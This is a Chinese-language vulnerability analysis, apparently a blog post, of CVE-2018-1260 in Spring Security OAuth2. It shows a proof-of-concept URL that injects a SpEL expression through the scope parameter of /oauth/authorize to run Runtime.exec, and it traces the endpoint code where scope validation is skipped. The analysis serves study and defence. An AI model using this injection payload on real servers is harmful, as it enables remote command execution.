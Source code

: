 PoC为`/oauth/authorize?client_id=client&response_type=code&redirect_uri=http://www.github.com/&scope=%24%7BT%28java.lang.Runtime%29.getRuntime%28%29.exec%28%22open%20/System/Applications/Calculator.app%22%29%7D`

执行的SpEL表达式为`${T(java.lang.Runtime).getRuntime().exec("open /System/Applications/Calculator.app")}`

然后我修改PoC执行的的SpEL表达式为`2333-1`，就可以直接证明

![1-1](https://milkfr.github.io/assets/images/posts/2019-11-15-analysis-spring-security-oauth2-rce/1-1.png)

### 0x02 CVE-2018-1260分析
其实我们不需要知道OAuth2协议的过程，虽然一些文章中分析，但是不是协议实现出现了问题，所以至少和OAuth2的关系不大，我们首先找到PoC对应的URL`/oauth/authorize`，对应的处理逻辑根据URL Mapping

`org.springframework.security.oauth2.provider.endpoint.AuthenticationEndpoint`

```
@RequestMapping({"/oauth/authorize"})
public ModelAndView authorize(Map<String, Object> model, @RequestParam Map<String, String> parameters, SessionStatus sessionStatus, Principal principal) {
    AuthorizationRequest authorizationRequest = this.getOAuth2RequestFactory().createAuthorizationRequest(parameters);
    // 省略
                ClientDetails client = this.getClientDetailsService().loadClientByClientId(authorizationRequest.getClientId());
    // 省略
                    this.oauth2RequestValidator.validateScope(authorizationRequest, client);
    // 省略
                    return this.getUserApprovalPageResponse(model, authorizationRequest, (Authentication)principal);
    // 省略
}
```

我这里省略了大部分的逻辑，因为我们只需要知道漏洞出现在scope参数，这个对URL处理的函数获取Request，然后有一个验证scope的函数验证了，之后就返回Response这三步就可以了，知道验证参数的来源就可以

然后单步进去我们看验证函数

![2-1](https://milkfr.github.io/assets/images/posts/2019-11-15-analysis-spring-security-oauth2-rce/2-1.png)

这里是比较懵的，clientScopes是个LinkedHashSet，size为0，但是为空的检查项没有检查出来，很奇怪，可能是没有重载`isEmpty`方法，这个`clientScope`值检查错误，所以跳过了验证

这个clientScopes是配置项scopes的值，没有配置为空，否则会进行检查

总之最后没有检查，就开始Response的构造

```
private ModelAndView getUserApprovalPageResponse(Map<String, Object> model, AuthorizationRequest authorizationRequest, Authentication principal) {
    this.logger.debug("Loading user approval page: " + this.userApprovalPage);
    model.putAll(this.userApprovalHandler.getUserApprovalRequest(authorizationRequest, principal));
    return new ModelAndView(this.userApprovalPage, model);
}
```
